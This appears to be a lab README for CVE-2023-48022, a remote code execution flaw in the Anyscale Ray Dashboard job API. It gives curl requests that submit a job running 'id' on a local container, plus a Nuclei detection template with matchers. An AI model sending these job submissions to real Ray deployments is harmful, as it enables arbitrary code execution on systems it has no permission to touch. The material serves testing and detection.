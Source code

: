 # CVE-2023-48022 - Anyscale Ray (RCE)

## Description  

Anyscale Ray versions 2.6.3 and 2.8.0 are vulnerable to remote code execution (RCE) due to insecure job submission handling in the Ray Dashboard API. An attacker with network access to the dashboard can submit and execute arbitrary code jobs, leading to full system compromise.

## References

- https://bishopfox.com/blog/ray-versions-2-6-3-2-8-0
- https://vulncheck.com/xdb/497d7fb3b118
- https://github.com/jakabakos/ShadowRay-RCE-PoC-CVE-2023-48022
- https://vulncheck.com/xdb/d3bafad9c9f6
- https://github.com/0x656565/CVE-2023-48022
- https://nvd.nist.gov/vuln/detail/cve-2023-48022

## Lab Setup

- Run the following command to build and start the container:

  ```bash
  docker-compose up -d
  ```
Once the container is running, the Ray Dashboard will be available at: `http://localhost:8265`

## Exploitation Steps

- **Submit a malicious job** via the vulnerable API:

   ```bash
   curl -X POST http://localhost:8265/api/jobs/ \
     -H "Content-Type: application/json" \
     -d '{"entrypoint": "id", "submission_id": "exploit123"}'
   ```
   ![ray-dashboard-rce-1](https://github.com/user-attachments/assets/31decae6-e34f-4c39-8c85-d6c89cf9c61c)


- **Wait a few seconds**, then fetch the logs:

   ```bash
   curl http://localhost:8265/api/jobs/exploit123/logs
   ```
  ![ray-dashboard-rce-2](https://github.com/user-attachments/assets/82e770e4-4789-4cbe-8a77-665d6fa73d4b)

- If successful, the logs will include command output from the `id` command (e.g., `uid=0(root) gid=0(root)`), confirming remote command execution.


## Steps to Write Nuclei Template  


**HTTP Requests**
```yaml
variables:
  jobid: "Job_{{rand_base(6)}}"

http:
  - raw:
      - |
        POST /api/jobs/ HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {
          "entrypoint": "id",
          "submission_id": "{{jobid}}"
        }

      - | # wait for 8 seconds before getting the logs
        GET / HTTP/1.1
        Host: {{Hostname}}

        {{wait_for(8)}}

      - |
        GET /api/jobs/{{jobid}}/logs HTTP/1.1
        Host: {{Hostname}}
```
- Submits a job with id as the command.
- Waits for 8 seconds to allow the job to run.
- Retrieves the logs to confirm code execution.

**Matchers: Detecting Access**
```yaml
    matchers:
      - type: dsl
        dsl:
          - 'status_code == 200'
          - 'contains(body, "logs\":")'
          - 'contains(content_type, "application/json")'
          - 'regex("uid=([0-9(a-z)]+) gid=([0-9(a-z)]+)", body)'
        condition: and
```

- These matchers confirm that:
    * The request was successful (`status_code == 200`)
    * The response contains a `"logs":` key
    * The content type is JSON (`application/json`)
    * The body includes the output of the `id` command (validated with a regex)

## Nuclei Template URL : [CVE-2023-48022](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2023/CVE-2023-48022.yaml)

## Nuclei Command

```bash
nuclei -id CVE-2023-48022 -u localhost:8265 -vv
```
![ray-dashboard-rce-3](https://github.com/user-attachments/assets/200e22ae-f77f-4d3c-aa52-ccdca0145f86)
